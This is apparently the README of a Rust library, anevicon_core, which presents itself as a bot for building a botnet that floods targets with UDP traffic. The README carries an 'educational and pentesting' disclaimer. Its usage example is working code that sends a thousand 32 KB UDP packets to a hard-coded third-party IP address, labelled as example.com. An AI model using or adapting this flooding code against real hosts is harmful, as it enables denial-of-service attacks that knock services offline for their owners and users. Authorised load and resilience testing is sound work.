 <div align="center">
  <h1>anevicon_core</h2>
  
  <a href="https://gitter.im/Gymmasssorla/anevicon">
    <img src="https://img.shields.io/badge/chat-on%20gitter-pink.svg">
  </a>
  <a href="https://travis-ci.com/Gymmasssorla/anevicon">
    <img src="https://travis-ci.com/Gymmasssorla/anevicon.svg?branch=master">
  </a>
  <a href="https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://crates.io/crates/anevicon_core">
    <img src="https://img.shields.io/badge/crates.io-v0.2.0-orange.svg">
  </a>
  <a href="https://docs.rs/anevicon_core">
    <img src="https://img.shields.io/badge/docs.rs-link-blue.svg">
  </a>
  <a href="https://semver.org">
    <img src="https://img.shields.io/badge/semver-follows-green.svg">
  </a>
  
  This crate can be used as a bot to build a [botnet](https://en.wikipedia.org/wiki/Botnet) for simulating [UDP-based DDoS attacks](https://en.wikipedia.org/wiki/UDP_flood_attack) (but only for educational and pentesting purposes, see [the GPLv3 license](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE), under which the library is distributed).
  
This library was designed to be as convenient and reliable as it is possible, and without any external dependencies (except of
the standard library). If you are just interested in one single program, please take a look at [this one](https://docs.rs/anevicon_core/0.1.0/anevicon_core/).
</div>

## Usage

(`Cargo.toml`):
```toml
[dependencies]
anevicon_core = "*"
```

(`src/main.rs`):
```rust
use anevicon_core::summary::TestSummary;
use anevicon_core::testing::execute;

// Setup the socket connected to the example.com domain
let socket = std::net::UdpSocket::bind("0.0.0.0:0").unwrap();
socket
    .connect("93.184.216.34:80")
    .expect("Cannot connect the socket to example.com");

let mut summary = TestSummary::default();

// Execute a test that will send one thousand packets
// each containing 32768 bytes.
execute(&socket, &vec![0; 32768], &mut summary)
    .take(1000)
    .for_each(|result| {
        if let Err(error) = result {
            panic!("{}", error);
        }
    });

println!(
    "The total seconds passed: {}", summary.time_passed().as_secs()
);
```

For more details please look through [the official documentation](https://docs.rs/anevicon_core).
